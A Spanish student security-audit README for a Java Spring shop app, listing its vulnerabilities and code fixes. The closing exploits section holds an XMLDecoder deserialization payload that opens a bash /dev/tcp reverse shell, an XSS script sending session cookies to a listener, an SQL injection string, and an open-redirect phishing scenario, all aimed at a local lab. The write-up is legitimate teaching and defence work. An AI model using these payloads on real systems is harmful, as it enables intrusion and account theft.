



###### por Sergio Luaces Martín, Diego Dopazo García y Aarón García Filgueira

> 📌 **Sobre este README**  
> Documento **resumen** con principales vulnerabilidades, mitigaciones y fragmentos de código.  
> Alcance: código, configuración y BDD embebida del proyecto original (sin pasarela de pago ni anti-bruteforce).  
> Detalles completos, evidencias y pruebas: **Memoria** → [PDF](./Memoria_Auditoria.pdf).  
> **En caso de conflicto, prevalece la Memoria.**


# Vulnerabilidades encontradas:

- CPS
	  Se ha encontrado que la CSP era demasiado permisiva.
	  Se ha solucionado aumentando las restricciones de dicha Content Security Policy:
	```java
	public class CSPInterceptor implements HandlerInterceptor {  
	      
	    @Override  
	    public boolean preHandle(HttpServletRequest request, 
							    HttpServletResponse response, 
							    Object handler)  
	        throws Exception {  
	        response.setHeader("Content-Security-Policy",   
	            "default-src 'self'; " +              //solo recursos de mi origen  
	            "img-src 'self' data:; " +         //solo imagenes de mi dominio  
	            "script-src 'self' 'unsafe-inline'; " +       //solo js de mi app  
	            "style-src 'self' 'unsafe-inline';"+      //solo css de mi dominio  
	            "object-src 'none';"+ //prohibe el uso de flash, java applets, etc  
	            "base-uri 'self'; "+               //prohibe que cambien la uri  
	            "connect-src 'self'; "+       //prohibe AJAX fuera de mi dominio  
	            "frame-ancestors 'none';"+        //prohibe clickjacking  
	            "form-action 'self';");           //solo envia forms a mi dominio  
	        return true;  
	    }       
	}	  
	```  
	 

- XSS en el login
		Se ha detectado que en algunas partes de la aplicación (principalmente en los comentarios de productos) el usuario podía introducir texto que luego era renderizado sin sanitización, permitiendo ejecutar código JavaScript mediante **XSS persistente**.
		En el formulario de *login* no fue necesario realizar cambios adicionales, ya que la pantalla ya no mostraba valores introducidos por el usuario debido a modificaciones previas en los mensajes de error (realizadas al corregir otras vulnerabilidades).
		En el caso de los comentarios de productos, se modificó el método encargado de crear los comentarios (`doCreateComment`) dentro de `CommentController`, aplicando sanitización del texto usando **OWASP Java HTML Sanitizer**. Así, el texto introducido por el usuario es limpiado antes de guardarlo.
```java

@PostMapping(Constants.COMMENT_PRODUCT_ENDPOINT)

public String doCreateComment(@SessionAttribute(Constants.USER_SESSION) User user,

                              @Valid @ModelAttribute(Constants.COMMENT_FORM) CommentForm commentForm,

                              HttpSession session,

                              RedirectAttributes redirectAttributes,

                              Locale locale,

                              Model model) {

    try {

        // Sanitizar antes de guardar

        PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.LINKS);

        String safeText = policy.sanitize(commentForm.getText());

  

        productService.comment(user, commentForm.getProductId(), safeText, commentForm.getRating());

        String message = messageSource.getMessage(Constants.PRODUCT_COMMENT_CREATED, new Object[0], locale);

        redirectAttributes.addFlashAttribute(Constants.SUCCESS_MESSAGE, message);

        return Constants.SEND_REDIRECT + MessageFormat.format(Constants.PRODUCT_TEMPLATE,

            commentForm.getProductId());

    } catch (InstanceNotFoundException ex) {

        return errorHandlingUtils.handleInstanceNotFoundException(ex, model, locale);

    } catch (InvalidStateException e) {

        throw new RuntimeException(e);

    }

}

```
De esta forma, aunque un atacante intente insertar HTML o JavaScript, el servidor lo sanitiza antes de almacenarlo, **evitando ataques XSS persistentes** y protegiendo al resto de usuarios.

- SQLi en el login
		Se ha detectado que el formulario de autenticación concatenaba directamente los valores introducidos por el usuario en la consulta JPQL/SQL, permitiendo modificar la query ejecutada en el servidor mediante técnicas de SQL Injection (por ejemplo, usando `admin' OR '1'='1`).  
		Esto podría permitir acceder a cuentas sin conocer las credenciales correctas o revelar información sensible de la base de datos.
		Se ha solucionado eliminando la construcción dinámica del JPQL y sustituyéndola por consultas parametrizadas, evitando que el valor introducido por el usuario pueda alterar la query.  
		En concreto, se ha reemplazado el uso de `MessageFormat.format(...)` por queries con parámetros `:email` y `:password`, utilizando `TypedQuery` y `setParameter()`:

```java
	TypedQuery<User> query = entityManager.createQuery("SELECT u FROM User u WHERE u.email = :email AND u.password = :password", User.class);
```

````java
query.setParameter("email", email); query.setParameter("password", password);
`````
		
   De este modo, el input del usuario se envía de forma segura al motor JPA, imposibilitando que la consulta sea manipulada.

- File upload en la foto de perfil
		Se ha detectado que la funcionalidad de “subir imagen de perfil” aceptaba ficheros que no eran imágenes legítimas, permitiendo la subida de ficheros maliciosos (por ejemplo polyglots o archivos con payloads ocultos) que podrían llevar a la ejecución de scripts u otra actividad no deseada.
		Se ha solucionado verificando de forma exhaustiva el contenido del fichero subido usando `PngReader` de la librería **pngj**: antes de aceptar el archivo se analiza el cuerpo completo del fichero y se comprueba que cumple la estructura y los chunks válidos de un PNG. Solo se admiten ficheros que pasan esta validación; el resto se rechaza. Con ello se evita que ficheros no-PNG o PNG malformados lleguen al almacenamiento o al procesamiento posterior.

- Bussines logic en el precio a la hora de pagar
		Se ha detectado que la aplicación obtenía el precio del pedido directamente desde los datos enviados en el formulario (`OrderForm`), lo que permitía a un usuario malintencionado manipular dicho valor antes de enviarlo al servidor (por ejemplo, modificando el precio en el HTML o mediante un proxy HTTP).  
		Esto suponía una vulnerabilidad grave de **Business Logic**, ya que el servidor confiaba en datos controlados por el cliente para determinar el importe final del pedido.
		Se ha solucionado modificando la clase `OrderController` para que el precio ya no se obtenga desde el formulario, sino directamente desde el **carrito de la compra** (`ShoppingCart`), cuyos valores son gestionados internamente por el servidor. 
		De este modo, ni los IDs de productos ni los precios son enviados desde el cliente, eliminando la posibilidad de manipular el total a pagar.
		El fragmento afectado ahora utiliza el carrito de sesión para recuperar los datos válidos del pedido:
```java

@PostMapping(Constants.ORDERS_ENDPOINT)

public String doCreateOrder(@Valid @ModelAttribute(Constants.ORDER_FORM) OrderForm orderForm,

                            BindingResult result,

                            @SessionAttribute(Constants.USER_SESSION) User user,

                            @SessionAttribute(Constants.SHOPPING_CART_SESSION) ShoppingCart shoppingCart,

                            RedirectAttributes redirectAttributes,

                            Locale locale, Model model) {

    if (result.hasErrors()) {

        return errorHandlingUtils.handleInvalidFormError(result,

            Constants.CREATE_ORDER_INVALID_PARAMS_MESSAGE, model, locale);

    }

  

    Order order = orderService.createOrderFromCart(user, shoppingCart);

    shoppingCart.clear();

    redirectAttributes.addFlashAttribute("message", "Pedido realizado correctamente");

    return "redirect:/orders";

}

```
De esta forma, el servidor calcula el precio real del pedido a partir de los datos internos y no de la entrada del usuario, garantizando la integridad del proceso de pago.

- Information disclosure (Los errores que se muestran en la página)
		Se ha identificado la vulnerabilidad de exposición de información a través de mensajes de error y trazas en las páginas. Tras mitigar los problemas críticos asociados (principalmente SQL Injection y Deserialización insegura), las respuestas del servidor ya no muestran stacktraces ni mensajes técnicos al cliente.
		Igualmente, para evitar que aparezcan los stacktraces y los whitelabels en un futuro, se han añadido las siguientes líneas al application.properties:
```properties
# Evita que Spring incluya stacktraces en las respuestas HTTP
server.error.include-stacktrace=never
# Evita incluir el mensaje de excepción en la respuesta
server.error.include-message=never
# No incluir errores de binding en la respuesta
server.error.include-binding-errors=never
# Desactivar whitelabel error page (usar página propia)
server.error.whitelabel.enabled=false
```

- Insecure Deserialization (cookie: user-info)
	Se detectó que la aplicación deserializaba XML procedente de una cookie usando `XMLDecoder` sin comprobaciones, lo que permitía la instanciación arbitraria de clases (RCE mediante `<object class="...">`).  

    Para mitigarlo se aplicaron cambios defensivos que **validan la clase antes de deserializar** y limitan el proceso solo a la clase segura `es.storeapp.web.cookies.UserInfo`. Además se mejoró la decodificación y el manejo de errores.

    Cambios aplicados (solo fragmentos modificados):  

```java
// Decodificación segura (UTF-8) y extracción de la clase con regex

String xml = new String(Base64.getDecoder().decode(cookieValue), StandardCharsets.UTF_8);

String className = extractClassNameFromXML(xml);

if (!WHITELISTED_CLASSES.contains(className)) {

    throw new SecurityException("Clase no permitida en deserialización: " + className);

}

```

```java
// Deserialización solo si la clase está permitida (try-with-resources)

try (XMLDecoder xmlDecoder = new XMLDecoder(new ByteArrayInputStream(xml.getBytes(StandardCharsets.UTF_8)))) {

    Object obj = xmlDecoder.readObject();

    if (obj instanceof UserInfo userInfo) {

        User user = userService.findByEmail(userInfo.getEmail());

        if (user != null && user.getPassword().equals(userInfo.getPassword())) {

            session.setAttribute(Constants.USER_SESSION, user);

        }

    }

}
```

```java
// Extracción segura del atributo class en el XML

private String extractClassNameFromXML(String xml) {

    Pattern pattern = Pattern.compile("<object\s+class="([^"]+)"");

    Matcher matcher = pattern.matcher(xml);

    if (matcher.find()) {

        return matcher.group(1);

    }

    return null;

}
```
  
   El resultado es que el endpoint deja de aceptar deserializaciones arbitrarias desde la cookie; solo se procesan objetos del tipo `UserInfo` tras validación explícita, mitigando la amenaza de ejecución remota de código.

- Access control (puedes comentar sin haber comprado el producto)
	Se ha detectado que el sistema permitía que cualquier usuario autenticado **comentara productos sin haberlos comprado previamente**.  

   Esto posibilita la inserción de valoraciones fraudulentas y manipulación de la reputación de productos (reviews falsas), constituyendo una vulnerabilidad de **Broken Access Control**.

   Se ha solucionado añadiendo una comprobación server‑side que valida que el usuario haya comprado el producto antes de permitir crear o modificar un comentario.  

   En concreto, se ha utilizado el método `findIfUserBuyProduct(userId, productId)` (en `OrderLineRepository`) desde `ProductService.comment(...)` y se rechaza la operación si no existe compra previa:

```java
// Comprobación de que el usuario compró el producto

boolean purchased = orderLineRepository.findIfUserBuyProduct(user.getUserId(), productId);

if (!purchased) {

    throw exceptionGenerationUtils.toInvalidStateException(

        "User is not allowed to comment a product not purchased"

    );

}
```

   De este modo, el servidor impide que usuarios no compradores creen o modifiquen reseñas, preservando la integridad del sistema de valoraciones y cerrando el vector de ataque.

- Validacion de datos en la capa modelo (usuario)
		Se detectó que la entidad `User` no aplicaba validaciones suficientes sobre los datos introducidos por el usuario, lo que permitía almacenar valores malformados o potencialmente maliciosos (inyecciones, XSS o datos excesivos).  
		Se ha solucionado añadiendo validación en la **capa modelo** mediante anotaciones de `jakarta.validation`, limitando formato, longitud y tipo de caracteres, y ocultando campos sensibles en la serialización JSON.  
		En concreto, se añadieron restricciones como:
```java

@NotBlank

@Size(max = 100)

@Pattern(regexp = "[\p{L}0-9 \-_'.,]+", message = "Nombre contiene caracteres no permitidos")

private String name;


@NotBlank

@Email

@Size(max = 255)

private String email;


@NotBlank

@Size(min = 8, max = 255)

@JsonIgnore

private String password;

```
De este modo, el servidor valida y filtra la entrada antes de persistirla, evitando la inyección de código, el almacenamiento de datos corruptos y la exposición de información sensible.

- Validación de datos en formularios

    Se detectó que varios formularios aceptaban entradas vacías, con formato incorrecto o sin límites, lo que permitía fallos lógicos, abuso por entradas masivas y vectores para XSS/inyección.

    Se ha solucionado aplicando validaciones `jakarta.validation` en los forms (fail‑fast en servidor) y ocultando/exigiendo campos sensibles cuando corresponde.

    Ejemplo (LoginForm):
```java

@NotBlank(message="El correo es obligatorio")

@Email(message="Formato de correo inválido")

@Size(max=255)

private String email;

  

@NotBlank(message="La contraseña es obligatoria")

@Size(min=8, max=255)

private String password;

```

   Cambios aplicados también en: `ChangePasswordForm`, `ResetPasswordForm`, `UserProfileForm` (passwords, email, name); `CommentForm` (text, rating, productId); `OrderForm` (name, address, price, payNow); `PaymentForm` (creditCard pattern, cvv, expirationMonth/year). 
   
   `ProductSearchForm` se dejó opcional (no modificada).

   Resultado: rechazos tempranos de entradas inválidas, reducción de superficie de ataque (XSS/INJECTION/DoS) y coherencia de reglas de validación en todo el flujo.

- Exposición de información sensible
		Se detectó que varios templates de mensajes (`messages.properties`) incluían valores del usuario mediante placeholders (`{0}`, `{1}`) y esos strings se mostraban en la UI, lo que permitía enumerar usuarios (por ejemplo: “The s.luaces@udc.es 'email' is already in use”). Esto facilita *user enumeration* y divulgación de datos.
		Se ha solucionado con los siguientes cambios:

    1. **Mensajes genéricos en `messages.properties`**: se eliminaron plantillas que interpolaban el input del cliente y se sustituyeron por frases genéricas sin datos del usuario.  

 **Antes (arriesgado):**
```properties

       duplicated.instance.exception=The {0} ''{1}'' is already in use

       auth.invalid.user=User {0} does not exist

```

   **Ahora (seguro):**

```properties

       duplicated.instance.exception=Resource already in use

       auth.invalid.user.or.password=User or password is invalid
 ````

   2. **No pasar valores del usuario a la vista**: en los controladores se dejó de construir mensajes con `messageSource.getMessage(..., new Object[]{userInput}, ...)`. En su lugar se **registran los detalles en logs** y se muestra un mensaje genérico al usuario.

       **Antes (arriesgado):**

       ```java

       String msg = messageSource.getMessage("duplicated.instance.exception", new Object[]{"email", email}, locale);

       model.addAttribute("error", msg);

       ```

       **Ahora (seguro):**

       ```java

       log.info("Registro fallido: email duplicado -> {}", email);

       String msg = messageSource.getMessage("registration.failed", null, locale);

       model.addAttribute("error", msg);

       ```

   3. **UX seguro para registro/recuperación**: respuestas tipo “If the email exists, you will receive instructions” para no confirmar la existencia de cuentas. Añadir rate‑limit / CAPTCHA en endpoints sensibles.  

  
   Resultado: se evita la confirmación directa de existencia de emails/usuarios y la exposición de datos en mensajes, reduciendo la superficie de *information disclosure* y de user enumeration.


- Vulnerabilidad en la autenticacion: contraseña muy simple (no mandado)
		Se detectó que el sistema permitía establecer contraseñas débiles durante el registro y el inicio de sesión, ya que solo se validaba la longitud mínima mediante `@Size(min = 8)`. Esto permitía el uso de contraseñas como `12345678` o `password`, facilitando ataques de fuerza bruta y comprometiendo la seguridad de las cuentas.

    Se añadió una política de contraseñas fuertes mediante validación en backend (`jakarta.validation`) usando una expresión regular que exige:

    - Una letra mayúscula

    - Una letra minúscula

    - Un número

    - Un carácter especial

```java

@Size(min = 8, max = 255, message = "La contraseña debe tener al menos 8 caracteres")

@Pattern(

    regexp = "^(?=.*[A-Z])(?=.*[a-z])(?=.*\d)(?=.*[!@#$%^&*()_+\-]).+$",

    message = "La contraseña debe incluir mayúsculas, minúsculas, números y un carácter especial"

)

private String password;

```
   Esta validación se aplicó en:

   - `LoginForm`
   - `UserProfileForm`
   - Entidad `User` en la capa modelo
   
Con esta mejora, las contraseñas débiles quedan automáticamente rechazadas antes de proceder con la autenticación o el registro, reforzando la seguridad del sistema.

- Vulnerabilidad en la autenticacion: hash con salt estático 
	 Se ha detectado que en src/main/java/es/storeapp/business/services/UserService.java, existe una variable SALT definida estáticamente 
	```java
	- private static final String SALT = "$2a$10$MN0gK0ldpCgN9jx6r0VYQO"; 
	````
	 Que es usada en la generación del hash de la contraseña de un usuario:
```java
	  User user = userRepository.findByEmailAndPassword(email, BCrypt.hashpw(clearPassword, SALT));
```
   Esto provoca un fallo serio ya que se puede sitinguir donde acaba el hash de la contraseña y donde empieza el salt, permitiendo descubrir la contraseña a base d efuerza bruta probando operaciones hash en diferentes contraseñas hasta que coincida.
	Se ha solucionado generando un salt de manera aleatoria usando esta función:
````java
String hashedPassword = BCrypt.hashpw(password, BCrypt.gensalt());

        User user = userRepository.create(new User(name, email, hashedPassword, address, image));
````

- Open Redirect 
Se detectó que el parámetro `next` del endpoint `/login?next=...` podía ser manipulado para redirigir a dominios externos tras el inicio de sesión, permitiendo ataques de phishing.

Se añadió una validación de seguridad que acepta únicamente rutas internas relativas (que empiecen por /), bloqueando redirecciones hacia URLs externas.

```java

// ... dentro de doLogin(...)

// Redirección segura (solo rutas internas)
if (next != null) {
    try {
        String n = next.trim();
        URI uri = URI.create(n);
        if (!uri.isAbsolute() && uri.getHost() == null && n.startsWith("/")) {
            return Constants.SEND_REDIRECT + n; // ruta interna válida
        }
    } catch (IllegalArgumentException ignored) {}
}
return Constants.SEND_REDIRECT + Constants.ROOT_ENDPOINT;

```

- IDOR (Insecure Direct Object Reference) en el endpoint /orders/{id}.
		Se detectó que la aplicación permitía acceder, pagar o cancelar pedidos de otros usuarios simplemente modificando el identificador `id` en la URL (`/orders/1`, `/orders/2`, etc.). El servidor obtenía el pedido únicamente mediante `orderService.findById(id)`, sin validar que dicho pedido perteneciera al usuario autenticado.

     Este fallo permitía a cualquier usuario autenticado enumerar pedidos ajenos o incluso modificar su estado (**pagar** o **cancelar** el pedido de otro usuario), representando un grave problema de control de acceso.

     Se ha solucionado sustituyendo el acceso directo al pedido por una consulta que verifica explícitamente la propiedad del recurso. Para ello, se añadió en el repositorio un método que filtra por `orderId` **y** `userId`:
```java

public Optional<Order> findByIdAndUserId(Long id, Long userId) {

    return entityManager.createQuery(

            "SELECT o FROM Order o WHERE o.orderId = :id AND o.user.userId = :userId",

            Order.class

    )

    .setParameter("id", id)

    .setParameter("userId", userId)

    .getResultList()

    .stream()

    .findFirst();

}

```

   Después, en el servicio se creó un método que solo devuelve el pedido si pertenece al usuario autenticado:

```java

@Transactional(readOnly = true)

public Order findByIdForUser(Long id, Long userId) throws InstanceNotFoundException {

    return orderRepository.findByIdAndUserId(id, userId)

            .orElseThrow(() -> new InstanceNotFoundException(id, "Order", "Order not found"));

}

```

   Finalmente, en los endpoints del controlador (`/orders/{id}`, `/orders/{id}/payment`, `/orders/{id}/cancel`)

   se reemplazó el acceso inseguro:

```java
orderService.findById(id);
```
   
   por el acceso seguro:
   
```java
orderService.findByIdForUser(id, user.getUserId());
```

   Gracias a este cambio, aunque un usuario intente manipular el parámetro `id`, el servidor solo devolverá o modificará pedidos que realmente pertenezcan al usuario autenticado. Los pedidos de otros usuarios **no son accesibles y el sistema responde con un mensaje genérico**, evitando tanto acceso no autorizado como enumeración de recursos.

# Exploits

## Reverse shell usando la vulnerabilidad de deserialización insegura en la cookie `user-info`

### Vulnerabilidades explotadas

- Deserialización insegura
### Exploit

Para llevar a cabo este exploit es necesario no tener la sesión iniciada. 
Lo primero es poner un listener con netcat de la siguiente forma: `nc -nlvp 4444` y luego hay que crear el payload codificando el siguiente XML en Base64:

```xml

<?xml version="1.0" encoding="UTF-8"?>

<java version="1.8.0" class="java.beans.XMLDecoder">

  <!-- 1) Ejecuta ProcessBuilder primero -->

  <object class="java.lang.ProcessBuilder">

    <array class="java.lang.String" length="3">

      <void index="0"><string>/bin/bash</string></void>

      <void index="1"><string>-c</string></void>

      <void index="2">

        <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/4444 0&gt;&amp;1</string>

      </void>

    </array>

    <void method="start"/>

  </object>

  

  <!-- 2) Devuelve un UserInfo válido para que el cast funcione -->

  <object class="es.storeapp.web.cookies.UserInfo">

    <void property="email"><string>victim@example.com</string></void>

    <void property="password"><string>password</string></void>

  </object>

</java>

```

Tras esto, creamos una cookie llamada `user-info` y como valor le asignamos el código anterior en Base64 como se muestra en la imagen:


Una vez hecho esto, se realiza cualquier acción en la aplicación (por ejemplo, ir a otra pestaña, recargar la página, etc.) y aparecerá un error en la página web. Si entonces vamos al terminal con nuestro listener escuchando veremos que se ha establecido una conexión remota con usuario de acceso el que está ejecutando la aplicación.


> (Cabe destacar que en este caso el terminal de nc se ve extraño debido a que la conexión va desde localhost a localhost.)
---
## Mediante XSS obtener cookies de usuarios autenticados y usar su cuenta para comprar productos y enviarlos a una dirección maliciosa

### Vulnerabilidades explotadas

- XSS
- Control de acceso (Access Control)
- Fallo en la validación de datos

### Exploit

Para llevar a cabo este exploit necesitaremos el siguiente payload JavaScript:

```javascript

<script>new Image().src='http://localhost:9999/exploit?c='+encodeURIComponent(document.cookie)</script>

```

Este payload se puede insertar en un comentario de cualquier producto (aunque no lo hayamos comprado) explotando una vulnerabilidad en el control de acceso, como se ve en la imagen:


Cuando un usuario visualice los comentarios de este producto, el XSS enviará la cookie `JSESSIONID` al servidor atacante, donde tendremos un script escuchando en el puerto TCP 9999.

Este script se encarga de, cuando recibe la petición con la cookie, añadir productos al carrito y comprarlos con un valor de **1 euro**, aprovechando un fallo en la validación de datos (la suma solo se calcula en el frontend, no en el backend). 
Vale la pena recalcar que en este ejemplo el único producto que se compra es el ID 3, pero se podría modificar de manera sencilla para comprar cualquier producto deseado.

En la siguiente imagen se ve cómo llega una petición a nuestro servidor después de que la víctima vea la reseña:


Para finalizar, en las siguientes imágenes se puede ver que el exploit funcionó: la primera muestra el perfil de la víctima y la segunda la confirmación del pedido; donde se observa que el precio es de tan solo 1€ y que la dirección ha sido sustituida:

  


### Descarga de aplicación maliciosa mediante open redirect e ingeniería social

**Vulnerabilidades explotadas:**  
- Open Redirect (`/login?next=...`)
- Ingeniería social avanzada

**Exploit:**  
Se simula una campaña de phishing en la que el atacante, tras una filtración de datos, envía un correo que suplanta perfectamente la marca Amazoncillo. Este correo anuncia la “nueva aplicación de escritorio personalizada” y contiene un enlace que, aparentemente, lleva a la web oficial.

El usuario accede a la página legítima, introduce sus credenciales y, sin darse cuenta, es redirigido automáticamente a una falsa web de descarga (aprovechando el parámetro `next`). Aquí se ofrece un instalador malicioso con identidad visual corporativa. La técnica de open redirect se utiliza precisamente para evitar sospechas y facilitar el éxito del ataque:
- El login real refuerza la seguridad percibida y dificulta la detección.
- La página maliciosa replica el diseño y la marca original.






> La ingeniería social es crítica en ataques actuales: los atacantes suelen emplear cadenas de confianza con interacciones reales para maximizar el éxito del fraude y escapar a mecanismos tradicionales de detección.

**Impacto:**  
El usuario descarga y ejecuta el archivo convencido de que permanece en el entorno seguro de Amazoncillo, exponiendo sus datos y sistema.
